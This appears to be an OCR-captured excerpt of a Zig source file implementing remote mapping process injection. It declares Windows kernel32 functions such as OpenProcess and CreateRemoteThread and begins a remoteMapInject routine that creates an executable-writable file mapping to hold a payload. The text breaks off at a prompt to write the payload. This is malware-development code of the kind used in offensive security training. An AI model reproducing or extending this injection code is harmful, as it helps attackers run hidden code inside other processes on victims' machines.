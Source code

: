 ```zig name=remote_mapping_injection.zig
extern "kernel32" fn Process32Next(hSnapshot: windows.HANDLE, lppe: *PROCESSENTRY32) callconv(windows.WINAPI) windows.BOOL;

extern "kernel32" fn OpenProcess(
    dwDesiredAccess: DWORD,
    bInheritHandle: BOOL,
    dwProcessId: DWORD,
) callconv(WINAPI) ?HANDLE;

extern "kernel32" fn CreateRemoteThread(
    hProcess: HANDLE,
    lpThreadAttributes: ?*windows.SECURITY_ATTRIBUTES,
    dwStackSize: SIZE_T,
    lpStartAddress: PVOID,
    lpParameter: ?PVOID,
    dwCreationFlags: DWORD,
    lpThreadId: ?*DWORD,
) callconv(WINAPI) ?HANDLE;

fn remoteMapInject(hProcess: HANDLE, pPayload: []const u8, ppAddress: *?PVOID) bool {
    var bState: bool = true;
    var hFile: ?HANDLE = null;
    var pMapLocalAddress: ?PVOID = null;
    var pMapRemoteAddress: ?PVOID = null;

    // Create a file mapping handle with RWX memory permissions
    hFile = CreateFileMappingW(
        INVALID_HANDLE_VALUE,
        null,
        PAGE_EXECUTE_READWRITE,
        0,
        @intCast(pPayload.len),
        null,
    );

    if (hFile == null) {
        print("\t[!] CreateFileMapping Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        return bState;
    }

    // Map the view locally for writing
    pMapLocalAddress = MapViewOfFile(
        hFile.?,
        FILE_MAP_WRITE,
        0,
        0,
        pPayload.len,
    );

    if (pMapLocalAddress == null) {
        print("\t[!] MapViewOfFile Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        if (hFile) |handle| _ = CloseHandle(handle);
        return bState;
    }

    print("\t[+] Local Mapping Address : 0x{X}\n", .{@intFromPtr(pMapLocalAddress.?)});

    waitForEnter("\t[#] Press <Enter> To Write The Payload ... ");
```